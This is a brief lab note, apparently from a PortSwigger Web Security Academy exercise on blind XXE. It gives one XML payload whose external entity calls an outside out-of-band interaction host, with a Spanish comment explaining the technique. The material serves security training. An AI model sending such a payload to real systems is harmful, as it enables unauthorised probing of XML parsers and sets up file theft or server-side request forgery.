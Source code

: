 Tags: #XXE #PortSwigger 

# Lab 3 Blind XXE-OOB (with Out-of-band) 

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://if1uhmffypde.otify.com/testXXE">]>      
	<root>
		&xxe;
	</root>

	<!-- OOB = Poder colocar una URL externa y tratar de cargar un recurso -->
```